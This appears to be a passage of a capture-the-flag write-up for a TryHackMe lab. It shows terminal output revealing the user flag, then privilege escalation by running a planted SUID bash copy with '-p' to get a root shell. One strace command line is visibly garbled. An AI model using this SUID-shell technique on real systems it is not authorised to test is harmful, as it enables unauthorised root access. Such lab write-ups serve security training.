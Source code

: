 **Local.txt Contents**

```
james@overpass-production:/home/james$ hostname && whoami && cat ~/user.txt && ip
overpass-production
james
thm{d119b4fa8c497ddb0525f7ad200e6567}
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:3e:f4:2b:fb:db brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.125/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3510sec preferred_lft 3510sec
    inet6 fe80::3e:f4ff:fe2b:fbdb/64 scope link 
       valid_lft forever preferred_lft forever

```

#### Privilege Escalation
We found a binary that spawns a bash shell with root privileges and does not ask for a password. It's executable by all in the home directory:

```
james@overpass-production:/home/james$ ls -lah
total 1.5M
drwxr-xr-x 7 james james 4.0K Feb 16 03:22 .
drwxr-xr-x 7 root  root  4.0K Jul 21  2020 ..
lrwxrwxrwx 1 james james    9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james 3.7K Apr  4  2018 .bashrc
drwx------ 2 james james 4.0K Jul 21  2020 .cache
drwx------ 3 james james 4.0K Feb 16 03:22 .gnupg
drwxrwxr-x 3 james james 4.0K Jul 22  2020 .local
-rw------- 1 james james   51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james  807 Apr  4  2018 .profile
-rw-r--r-- 1 james james    0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1.1M Jul 22  2020 .suid_bash
-rwxr-xr-x 1 james james 318K Feb 14 17:26 linpeas.sh
-rwxr-xr-x 1 james james  40K Feb 14 02:39 lse.sh
drwxrwxr-x 3 james james 4.0K Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james   38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james 4.0K Jul 21  2020 www
cess|no such file"duction:/home/james$ strace .suid_bash 2>&1 | grep -E "open|ac 
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root

```
